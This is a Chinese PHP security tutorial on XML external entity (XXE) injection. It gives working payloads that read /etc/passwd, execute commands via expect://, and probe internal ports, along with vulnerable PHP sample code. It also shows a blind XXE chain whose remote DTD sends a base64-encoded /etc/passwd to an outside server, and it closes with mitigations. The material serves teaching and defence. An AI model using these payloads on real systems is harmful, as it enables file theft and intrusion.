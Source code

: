 # PHP安全学习—XML外部实体注入漏洞

Author: H3rmesk1t

Data: 2021.06.06

# 环境
PHP 7.0.30、Libxml 2.8.0（Libxml2.9.0以后默认不解析外部实体，对于PHP版本不影响XXE的利用）


# 原理介绍

XML 被设计为传输和存储数据,其焦点是数据的内容，HTML 被设计用来显示数据，其焦点是数据的外观，HTML 旨在显示信息，而 XML旨在传输信息
XML特点：XML 被设计用来结构化、存储以及传输信息，仅仅是纯文本，有能力处理纯文本的软件都可以处理 XML，XML允许创作者定义自己的标签和自己的文档结构，XML 是独立于软件和硬件的信息传输工具，所有现代浏览器都有读取和操作 XML 的内建 XML解析器，但是不同的浏览器解析的方法不一样的，如在IE中使用loadXML()方法，在其他浏览器中使用DOMParser
loadXML()方法用于加载字符串文本，load()方法用于加载文件，解析器把XML 载入内存，然后把它转换为可通过 JavaScript 访问的 XML DOM 对象

# 漏洞危害
1. 读取任意文件
file 协议：`file:///etc//passwd`
php 协议：`php://filter/read=convert.base64-encode/resource=index.php` 
2. 执行系统命令
部分情况会有，在特殊的配置环境下，如PHP环境中PHP的expect模块被加载到了易受攻击的系统或者能处理XML的应用中，就能执行命令，简单payload如下

```php
<?xml version="1.0" encoding="utf-8"?
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>
```
3. 探测内网端口
借助漏洞实现内网探测，常见payload如下

```php
<?xml version="1.0" encoding="utf-8"?
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://192.168.199.100:80">]>
<root>
<name>&xxe;</name>
</root>
```
4. 攻击内网网站(dos或者直接吃服务器资源导致无法正常服务)

# 例子
## 有回显
- 源码
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```
- Payload

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606143625390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 无回显
>无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 blind XXE
- 源码

```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606143812772.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

如果直接执行的话是没有任何回显的，可以使用http协议将请求发送到远程服务器上，从而获取文件内容
首先在远程服务器写入一个dtd文件，例如test.dtd，文件内容如下

```php
注意：%号需要实体16进制编码为&#x25;
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.2.1/%file;'>">
```

利用Payload，将数据外带到服务端

```php
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/202106061440463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

执行逻辑大概如下：
1. 从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote先调用，调用后请求远程服务器上的test.dtd ，有点类似于将 test.dtd包含进来
2. %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件
 3. 将 %file 的结果填入到 %send 以后 (因为实体的值中不能有 %, 所以将其转成html实体编码 \&#x25;)，
 4. 再调用 %send; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题

# 解决方案和建议
1. 使用开发语言提供的禁用外部实体的方法

```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

2. 过滤用户提交的XML数据

```
<!DOCTYPE和<!ENTITY，SYSTEM和PUBLIC
```
# 更进一步的学习XXE

更进一步的学习XXE的相关知识和利用方式可以参考这篇文章中的内容：[链接地址](https://xz.aliyun.com/t/3357)
